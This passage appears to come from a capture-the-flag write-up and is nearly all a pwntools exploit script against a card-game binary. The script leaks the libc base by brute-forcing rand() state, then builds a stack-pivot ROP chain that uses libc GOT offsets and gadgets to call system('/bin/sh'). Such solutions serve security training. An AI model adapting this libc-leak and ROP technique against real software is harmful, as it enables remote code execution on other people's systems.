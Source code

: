 ```python
        leak("current scores ", cur)
        if(cur == target): break
        p.sendlineafter("[y/n]? ",'y')

def main():
    global p
    p.sendlineafter("Choice: ", 'P')
    p.sendlineafter("name? ","Niebelungen")

    # libc 
    p.sendlineafter("game? ", '1')
    p.sendlineafter("?", '8')
    for i in range(4):
        p.sendlineafter(": ",'1')

    num, idx = get_dealer()
    p.recvuntil("The current set of heaps is: [")
    heap_list = map(int, p.recvuntil("]",drop=True).split(", "))
    heap_list[idx-1] += num

    rand_addr = 0
    for i in range(2**10):
        guess = (0x7e << 40) | (i << 31) | heap_list[0] 
        num = Randgen.rand_sim(guess)
        if (num & 0x7FFFFFFF) == heap_list[1]:
            rand_addr = guess
            break
    libc_base = rand_addr - libc.sym["rand"]
    Randgen.set_seed(rand_addr)
    for i in range(4):
        Randgen.get_next()
    leak("libc base", libc_base)

    p.sendlineafter("resign): ",'0')
    p.sendlineafter("[y/n]? ",'n')

    # strchrnul@libc.got    0x1eb040
    # strlen@libc.got       0x1eb0a8
    # memcpy@libc.got       0x1eb148
    # name - stack 0x2a8 
    # + 0x20       0x2c8 
    # + 0x20       0x2e8
    
    system = libc_base + libc.sym['system']
    binsh = libc_base + libc.search("/bin/sh").next()
    pop_rdi = libc_base + 0x0000000000026b72
    libc_got = libc_base + 0x1eb0a8
    rsp_2d8 = libc_base + 0x0000000000089d27
    rsp_c8 = libc_base + 0x00000000000e7b3a

    p.sendlineafter("Choice: ", 'P')
    p.sendlineafter("name? ", p64(rsp_c8)*3+p64(rsp_c8)[:6])

    '''
    for this game, dealer is the fisrt to take
    we must make checksum == 0
    '''
    target = (rsp_2d8+1)&0xffffffff
    leak("target",target)
    if(target>>31 & 1):
        log.info("Sorry, target <0!")
        return 
    win_game(9999+1, target)
```